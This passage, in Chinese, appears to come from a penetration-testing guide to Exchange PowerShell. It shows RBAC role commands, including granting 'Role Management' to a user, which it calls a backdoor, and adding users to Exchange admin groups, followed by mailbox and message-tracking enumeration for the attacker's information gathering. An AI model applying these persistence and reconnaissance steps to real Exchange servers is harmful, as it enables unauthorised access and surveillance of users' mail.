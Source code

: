     # Exchange 2013 & 2016
    Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;
    ```

#### 语法所需权限

通过各种方式连接上 Exchange 管理端后，会自动加载大量的 Exchange Cmdlet。Exchange 通过基于角色的访问控制（RBAC）进行权限管理，用户拥有相应的角色才可以使用对应的 Exchange Cmdlet，否则在连接阶段就不会获取没有权限的 Exchange Cmdlet。下面语句描述如何查看某个 Cmdlet 所需角色，并为用户赋予该角色，让其可以执行该 Cmdlet：

```bash
# 查看所有 Exchange Cmdlet
Get-ExCommand

# 查看执行某个 Cmdlet 所需的角色
Get-ManagementRole -Cmdlet New-ManagementRoleAssignment

# 给某个用户赋予所需角色，让其可以执行某个 Cmdlet
New-ManagementRoleAssignment -Role "Role Management" -User zhangsan -Name "Role Management Back"

# 查看角色授权是否成功
Get-ManagementRoleAssignment –Role "Role Management"|Format-List

# 删除某个角色授权
Remove-ManagementRoleAssignment -Identity "Role Management Back" -Confirm:$false
需要注意的是，Get-ManagementRole 和 Get-ManagementRoleAssignment 需要 Role Management 角色，而该角色一般被分配给 Organization Management 角色组。

# Exchange 管理端添加 Exchange 管理员
Add-RoleGroupMember "Organization Management" -Member zhangsan -BypassSecurityGroupManagerCheck
Add-RoleGroupMember "Exchange Organization Administrators" -Member zhangsan -BypassSecurityGroupManagerCheck

# 域管添加 Exchange 管理员
net groups "Organization Management" zhangsan /DOMAIN /ADD
net groups "Exchange Organization Administrators" zhangsan /DOMAIN /ADD

# 将用户加入 Role Management 组，可以任意添加角色，相当于后门
New-ManagementRoleAssignment -Role "Role Management" -User zhangsan -Name "Role Management Back"
```
添加特定的角色后，攻击者就可以进行管理员级别的信息收集。

#### 统计信息

```bash
# 查看所有邮箱信息，默认显示邮件数量、最后登录时间
Get-Mailbox -ResultSize unlimited | Get-MailboxStatistics

# 查看 zhangsan 的发件箱详情
Get-MessageTrackingLog -Start "01/11/2019 09:00:00" -Sender "zhangsan@island.com" -EventID SEND |Format-Table Timestamp,ClientIp,ClientHostname,EventId,Sender,Recipients,MessageSubject
```
